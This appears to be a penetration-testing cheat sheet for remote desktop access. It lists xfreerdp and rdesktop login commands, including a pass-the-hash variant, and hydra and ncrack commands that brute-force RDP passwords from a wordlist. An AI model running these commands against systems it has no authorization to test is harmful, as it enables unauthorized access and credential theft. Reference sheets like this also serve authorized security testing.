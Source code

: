 ## Remote desktop access
- `xfreerdp /u:[domain]\[username] /p:[password] /v:[host] +clipboard /drive:[Windows share name],[kali folder]`
- `xfreerdp /u:[domain]\[username] /pth:[hash] /v:[host] +clipboard /drive:[Windows share name],[kali folder]`
- `rdesktop -d [domain] -u [username] -p [password] [host]`

### Brute Force
- `hydra -l [username] -P [wordlist] -s [port] rdp://[host]`
- `ncrack -vv --user Administrator -P /root/passwords.txt rdp://10.10.10.10`
